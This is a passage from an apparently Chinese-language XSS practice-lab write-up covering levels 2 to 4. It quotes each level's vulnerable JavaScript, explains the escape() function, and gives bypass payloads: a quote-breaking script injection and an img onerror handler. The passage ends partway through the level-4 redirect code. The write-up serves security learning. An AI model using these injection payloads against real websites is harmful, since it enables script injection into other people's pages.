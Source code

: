 插不进去的原因：

```
 if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = '';
    	document.getElementById('ccc').innerHTML= "Welcome " + escape(username); 
```

传入的参数被escape函数编码了

#### 扫盲：

JavaScript escape() 函数

[![函数参考手册](img/d68f6bf5f99d86dde227aa92f13f04f9.png) JavaScript 全局函数](https://www.runoob.com/jsref/jsref-obj-global.html)

* * *

定义和用法

escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。

该方法不会对 ASCII 字母和数字进行编码，也不会对下面这些 ASCII 标点符号进行编码： * @ - _ + . / 。其他所有的字符都会被转义序列替换。

**提示：** 使用 [unescape()](https://www.runoob.com/jsref/jsref-unescape.html) 方法对字符串进行解码。

#### bypass:

```
level2?username';alert(1);// 
```

### level3

bypass:

```
<img src=1 onerror=alert(1)> 
```

### level4

本地特色：

```
 <script type="text/javascript"> var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
```